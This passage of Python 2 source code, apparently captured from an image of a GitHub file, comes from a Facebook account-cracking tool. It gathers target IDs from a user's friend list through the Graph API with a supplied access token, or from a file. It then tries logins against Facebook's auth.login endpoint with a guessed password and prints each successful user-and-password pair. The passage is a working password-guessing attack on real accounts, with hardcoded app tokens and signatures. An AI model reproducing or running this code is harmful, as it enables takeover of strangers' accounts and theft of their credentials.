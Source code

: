 		os.system("clear")
		print (logo)
		print (40*"-")
		try:
			jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\n[Back]")
			crack_menu()
		r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z["data"]:
			id.append(i["id"])
	elif bch =="3":
		os.system("clear")
		print (logo)
		print (40*"-")
		try:
			idlist = raw_input("[✓] Enter File Path  : ")
			for line in open(idlist,"r").readlines():
				id.append(line.strip())
		except IOError:
			print ("[!] File Not Found")
			raw_input("\n[ Back ]")
			crack_menu()
	elif bch =="0":
		menu()
	else:
		print ("[!] Fill in correctly")
		crack_action()
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ("[✓] Please wait, process is running ...")
	time.sleep(0.5)
	psb ("[!] To Stop Process Press CTRL Then Press z")
	time.sleep(0.5)
	print (50*"-")
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
			d=b["first_name"]
			e=d.replace(" ", "")
			f=e.lower()
			g=pf(f, 1)
			h=g.upper()
			i=rf(f, 1)
			c=h+i
			pass1="102030"
			data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if "access_token" in q:
				print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass1
